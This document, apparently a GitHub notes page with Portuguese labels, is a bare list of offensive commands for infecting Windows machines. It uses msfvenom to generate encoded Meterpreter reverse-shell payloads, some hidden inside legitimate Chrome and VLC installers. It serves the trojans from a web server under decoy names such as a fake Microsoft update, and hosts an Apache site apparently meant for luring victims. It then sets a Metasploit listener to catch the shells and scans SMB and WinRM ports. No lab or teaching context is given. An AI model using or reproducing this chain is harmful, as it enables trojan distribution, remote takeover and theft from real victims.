 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

sudo apt update
sudo apt install apache2 php libapache2-mod-php -y
sudo systemctl restart apache2

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.137
set LPORT 4444
run

nmap -Pn -p 445,5985 192.168.1.84






